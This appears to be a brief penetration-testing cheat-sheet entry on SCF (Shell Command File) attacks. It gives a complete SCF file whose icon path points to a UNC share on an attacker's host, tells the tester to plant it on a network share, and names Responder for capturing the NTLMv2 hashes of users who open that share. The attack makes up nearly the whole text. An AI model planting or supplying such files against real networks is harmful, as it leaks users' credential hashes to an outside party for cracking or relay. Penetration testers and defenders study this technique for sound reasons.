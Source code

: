 # SCF

SCF (Shell Command Files) files can be used to perform a limited set of operations such as showing the Windows desktop or opening a Windows explorer. SCF file can be used to access a specific UNC path which allows the penetration tester to build an attack. The code below can be placed inside a text file which then needs to be planted into a network share.

Example of such file:

```
[Shell]
Command=2
IconFile=\\X.X.X.X\lol
[Taskbar]
Command=ToggleDesktop
```

You an use Responder to capture the NTLMv2 hash
